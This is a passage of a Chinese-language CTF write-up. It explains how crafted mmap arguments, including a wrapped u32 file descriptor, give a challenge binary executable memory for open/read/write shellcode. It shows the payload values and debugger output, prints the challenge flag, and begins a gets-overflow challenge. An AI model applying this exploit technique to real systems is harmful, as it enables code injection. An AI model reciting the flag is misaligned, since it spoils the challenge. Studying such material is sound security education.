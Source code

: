```c
read(0, buf, 0x1000);
```

len应该大于0x1000

所以payload应该是，

```
addr = 0
len = 4096
offset = 0
prot = 7
fd = -1
```

由于rs中是parse的u32，-1应该写作0xffffffff，即4294967295，但是这样就过不了PROT_EXEC检查，

offset = 0x700000000

而`MAP_ANON`在大部分libc实现中，不要求fd一定为-1，所以可以尝试其他值

```
0
4096
4294967291
0
0
7
```

可以看到运行时

```
 ► 0x5555555552a0 <main+119>    call   mmap@plt                <mmap@plt>
        addr: 0x0
        len: 0x1000
        prot: 0x7
        flags: 0x22
        fd: 0xfffffffb
        offset: 0x0
```

成功设置了PROT_EXEC，写个`wrapper.c`和`code.asm`进行一个注入

需要注意的是，wrapper要分两次write，不然缓冲区数据加载不进去（猜测是因为rust和libc分两个stdin buffer？反正一次性write会导致buf为空

先`open`然后`read`然后`write`即可

`amateursCTF{1_l0v3_struct_p4dding}`

## pwn/hex-converter

> I kept on getting my hex mixed up while trying to solve unvariant's pwn challenges, so I wrote my own converter to help me out.
>
> Hint: What's in the stack that we can overwrite?

又是一道`gets`的栈覆盖题
